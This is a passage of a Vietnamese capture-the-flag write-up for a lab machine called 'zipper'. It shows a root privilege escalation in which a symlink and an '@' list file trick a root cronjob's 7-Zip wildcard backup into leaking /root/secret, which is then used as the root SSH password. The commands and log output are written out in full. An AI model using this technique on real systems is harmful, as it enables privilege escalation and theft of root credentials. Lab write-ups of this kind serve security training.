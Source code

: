 Tạo file `@secret.txt`:

```console
www-data@zipper:/$ cd /var/www/html/uploads

www-data@zipper:/var/www/html/uploads$ touch @secret.txt

www-data@zipper:/var/www/html/uploads$ ln -s /root/secret secret.txt
```

Đợi cho cronjob chạy, ta có thể đọc nội dung file `/root/secret` trong file `/opt/backups/backup.log`:

```console 
www-data@zipper:/var/www/html/uploads$ cat /opt/backups/backup.log

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,1 CPU AMD EPYC 7371 16-Core Processor                 (800F12),ASM,AES-NI)

Open archive: /opt/backups/backup.zip
--
Path = /opt/backups/backup.zip
Type = zip
Physical Size = 3109

Scanning the drive:
4 files, 2491 bytes (3 KiB)

Updating archive: /opt/backups/backup.zip

Items to compress: 4


Files read from disk: 4
Archive size: 3109 bytes (4 KiB)

Scan WARNINGS for files and folders:

WildCardsGoingWild : No more files
----------------
Scan WARNINGS: 1
```

Nội dung `/root/secret` là `WildCardsGoingWild`

Thử SSH vào root sử dụng `WildCardsGoingWild`:

![](https://i.imgur.com/0XkzmK8.png)

Thành công leo root.
